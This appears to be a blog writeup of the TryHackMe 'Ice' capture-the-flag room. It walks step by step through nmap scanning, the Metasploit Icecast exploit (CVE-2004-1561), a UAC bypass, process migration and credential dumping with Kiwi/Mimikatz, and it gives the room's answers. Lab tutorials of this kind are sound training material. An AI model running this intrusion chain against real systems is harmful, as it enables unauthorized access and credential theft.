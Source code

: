 ```yaml
---
layout: blog
title: TryHackMe Ice Writeup
publishDate: 2023-12-08T17:12:00.000Z
description: A step-by-step walk-through of the TryHackMe CTF room - Ice. Its
  based on CVE-2004-1561, a buffer overflow vulnerability on Icecast, a
  multimedia streaming service.
tags:
  - tryhackme
  - writeup
---
```

## Task 1: Connect

I use OpenVPN to connect to THM servers. You can also download your OpenVPN configuration from https://tryhackme.com/access and connect using this command:

```sh
sudo openvpn <your-config>.ovpn
```

Then, click on the green "Start Machine" button to initiate the target machine. It takes about a minute to start up.

## Task 2: Recon

The first task is always to scan the target. In order to find all the open ports, you can run a TCP SYN scan (using the `-sS` flag in nmap). Check the Nmap output and find which port is running the MSRDP service. It won't be listed as MSRDP or Microsoft Remote Desktop something, but if you look carefully, you'll find a "ms-wbt-server" service running on port 3389.

![Running services](/images/uploads/pasted-image-20231208172254.png)

A quick google search can confirm your suspicions. 

![MS WBT server google search result](/images/uploads/pasted-image-20231208172316.png)

The next question asks you what service is running on port 8000. Well it is http but the the correct answer should be the name of the service which will be shown only if you run a version scan using the `-sV` flag as you can see below. It is "Icecast" - a popular media streaming server.

![Icecast service running on TCP port 8000](/images/uploads/pasted-image-20231208172703.png)

The host name of the machine can be found in the output of a script scan (use the `-sC` flag). The hostname is listed as the "NetBIOS name" in the "Host script results" section of the nmap output. The answer is "DARK-PC".

![Nmap host detection result](/images/uploads/pasted-image-20231208173319.png)

## Task 3: Gain Access

The exact answer to the first question could not be found on the mentioned cvedtails.com website as the website design and layout has been updated since. Visit the website and search for "Icecast" vulnerabilities. You can filter by the rating of 7 or higher. Most of the vulnerabilities will show the type "Buffer Overflow" but the correct answer should be "Execute Code Overflow" (this used to be shown under the Vulnerability type field earlier).

![CVEs of the running version of Icecast](/images/uploads/pasted-image-20231209094114.png)

The CVE that I used is [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/ "CVE-2004-1561 security vulnerability details") as its the only one having a public exploit. Run metasploit and search for "icecast" modules.

![Find the exploit in metasploit](/images/uploads/pasted-image-20231209095846.png)

Only one module should be listed: `exploit/windows/http/icecast_header`
Use the module and check the required options that we need to set. 

![Setting RHOSTS value in metasploit](/images/uploads/pasted-image-20231209095943.png)

RHOSTS specifies the remote hosts, *i.e.*, the target machine IP. Use the command `set RHOSTS <TARGET_IP>` to set the value. By default, LHOST, or the local host (your IP) should be set to eth0 or wlan0 depending on the interface you are using. But, since you're connected to the tryhackme VPN, you should change it to tun0 using `set LHOST tun0` command. Then you can `run` the exploit.

## Task 4: Escalate

If the exploit runs successfully, you'll get a "meterpreter" shell. Run the command `getuid` to check if you are logged in as the user "Dark". We can also gather some more information about the system, for example, the build version and architecture by running the `sysinfo` command.

Run the module `run post/multi/recon/local_exploit_suggester` to find local exploits in the system. We will use the first exploit:

```sh
use exploit/windows/local/bypassuac_eventvwr
```

![Find local exploits after gaining meterpreter shell](/images/uploads/pasted-image-20231209100744.png)

Check the required options in the local exploit. Set the session to 1 (you can check the meterpreter session number using the command `sessions`), and the LHOST to tun0 (if you are using VPN). Now run the exploit.

To verify that we got the escalated shell, run `getprivs`. As you can see we have the access to take ownership of files:

![Output of the getprivs command](/images/uploads/pasted-image-20231209101129.png)

## Task 5: Looting

Before we do anything else, we should migrate to a more stable process. Run the `ps` command and find a process that matches our architecture (x64) and is run by NT AUTHORITY\SYSTEM. The most commonly used process (that always works!) is `spoolsv.exe`.

```sh
migrate -N spoolsv.exe
```

We will use Kiwi (the updated version of Mimikatz), a password dumping tool to retrieve the user password. 

```sh
load kiwi
```

After the tool is loaded, check the meterpreter `help` menu to find the newly added section for Kiwi. Run the `creds_all` command to find the password of the user Dark: `Password01!`.

![Find password of the user Dark using the creds_all command](/images/uploads/pasted-image-20231209101654.png)

## Task 6: Post Exploitation

The questions in this section are straightforward. I won't be sharing the answers as you can easily get them from the meterpreter help menu. You can play around a bit if you want.

Tip: Run the `screenshare` command to get a live view of the remote desktop :)
